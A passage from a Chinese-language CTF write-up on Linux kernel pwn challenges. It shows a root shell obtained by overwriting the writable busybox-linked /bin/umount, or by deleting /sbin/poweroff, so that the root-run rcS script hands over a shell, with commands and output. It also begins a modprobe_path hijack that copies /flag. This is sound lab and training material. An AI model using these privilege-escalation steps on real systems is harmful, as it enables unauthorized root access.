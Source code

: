 注意上面所有命令行都是 busybox 的软链接。

在 [A] 处通过 `chacktty` 和 `sh`（还是 busybox）打开 shell 机型用户交互。
然后当你退出这句命令时，接下来就是 `umount /proc ` 和 `poweroff` 关机了。整个 `rcS` 里面基本都是 `root` 进程，然后建立普通用户和普通权限，可以适当降权。如下：

```sh
cd /home/pwn
chown -R root /flag
chmod 400 /flag
chown -R 1000:1000 .
```

但开机后，发现 `busybox` 和其它链接我们是可**读写**的，这就有很大的操作性了。

```sh
~ $ ls -l /bin/
total 2692
lrwxrwxrwx    1 pwn      1000             7 Mar  8 04:30 arch -> busybox
lrwxrwxrwx    1 pwn      1000             7 Mar  8 04:30 ash -> busybox
lrwxrwxrwx    1 pwn      1000             7 Mar  8 04:30 base64 -> busybox
-rwxr-xr-x    1 pwn      1000       2753048 Feb 25 06:21 busybox
```

注意如果我们能在 exit 时，会继续以 root 执行`umount /proc `，然后 umount 我们也能读写，改写成一个 shell，就可以提权了。

```sh
~ $ rm /bin/umount 
~ $ echo "#!/bin/sh" > /bin/umount
~ $ echo "/bin/sh" >> /bin/umount
~ $ chmod +x /bin/umount 
~ $ ls -l /bin/umount 
-rwxr-xr-x    1 pwn      1000            26 Mar 10 03:24 /bin/umount
~ $ exit
~ $ exit
/bin/sh: can't access tty; job control turned off
/home/pwn #
```

同理，还可以控制最后一句关机命令，使用命令 `rm /sbin/poweroff` ，使程序不能完全退出，再次进入时，拥有`root`权限。

```sh
~ $ rm /sbin/poweroff
~ $ exit
/etc/init.d/rcS: line 20: poweroff: not found

Please press Enter to activate this console.
/ #
```

## kernob
### 解题思路1

内核使用了 `CONFIG_SLAB_FREELIST_HARDENED` 该编译选项，使释放的`slab`的指向下一个`slab`的地址上储存的不是下一个`slab`，而是一个`canary`。

1.修改`modprobe_path`指向`/home/pwn/exp/copy.sh`:
```sh
x/s 0xffffffff8245aba0
0xffffffff8245aba0:	"/home/pwn/exp/copy.sh"

/home/pwn/exp/copy.sh:
#!/bin/sh
/bin/cp /flag /home/pwn/flag
/bin/chmod 777 /home/pwn/flag
```


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png